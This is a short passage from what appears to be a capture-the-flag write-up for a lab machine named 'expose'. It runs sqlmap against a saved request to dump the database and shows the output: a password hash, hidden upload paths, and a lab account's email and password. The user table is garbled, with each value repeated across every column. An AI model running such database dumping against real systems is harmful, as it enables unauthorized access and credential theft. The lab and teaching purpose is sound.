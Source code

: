 ![alt text](image-2.png)

Check it by sqlmap

`sqlmap -r expose.req --dump`

```
...
Database: expose
Table: config
[2 entries]
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929                    |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+
...
Database: expose
Table: user
[4 entries]
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+
| id                                   | email                                | created                              | password                             |
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+
| 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  | 2023-02-21 09:05:46                  |
| hacker@root.thm                      | hacker@root.thm                      | hacker@root.thm                      | hacker@root.thm                      |
| 1                                    | 1                                    | 1                                    | 1                                    |
| VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 | VeryDifficultPassword!!#@#@!#!@#1231 |
+--------------------------------------+--------------------------------------+--------------------------------------+--------------------------------------+
```

